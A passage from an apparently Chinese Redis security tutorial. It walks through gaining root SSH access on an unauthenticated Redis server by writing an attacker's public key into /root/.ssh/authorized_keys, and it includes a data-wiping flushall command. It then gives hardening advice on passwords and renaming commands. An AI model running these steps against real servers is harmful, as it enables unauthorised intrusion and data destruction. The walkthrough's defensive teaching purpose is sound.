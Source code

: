 ```bash
>> redis-cli -h 123.45.67.89 -p 6379 ping
>> PONG
>> redis-cli -h 123.16.14.182 -p 6379 flushall
>> OK
```

在攻击者服务器生成一个公钥，并将公钥保存到一个id_rsa.pub中

```bash
>> ssh-keygen -C rsa -t "email@gmail"
>> cat id_rsa.pub
```

将公钥内容作为value添加到redis中

```bash
>> redis-cli -h 123.45.67.89 -p 6379 -x set crackit
>> redis-cli -h 123.45.67.89 -p 6379 get crackit
```

将redis的dir设置为/root/.ssh目录，dbfilename设置为authorized_keys

```bash
123.45.67.89:6379> config set dir /root/.ssh
OK
123.45.67.89:6379> config set dbfilename authorized_keys
OK
123.45.67.89:6379> save
OK
```

此时，因为被攻击者服务器上已经有了攻击者的公钥，即攻击者可以用ssh进行登录

### 安全七法则

#### 设置密码

服务端配置：requirepass和masterauth

客户端连接：auth命令和-a参数

注意事项
* 密码要足够复杂，因为redis性能太强，暴力破解比较简单
* 不要忘记masterauth
* auth是通过明文传输的，所以是有被盗窃的风险

#### 伪装危险命令

原理：类似linux的alias，将一些命令重新起个名字

实现：在配置文件中

```bash
rename-command flushall abc
```

注意事项

* 不支持动态 config set
* RDB或AOF如果包含有rename-command之前的命令，将无法使用
* config命令本身在redis内核中会使用到，不建议重命名
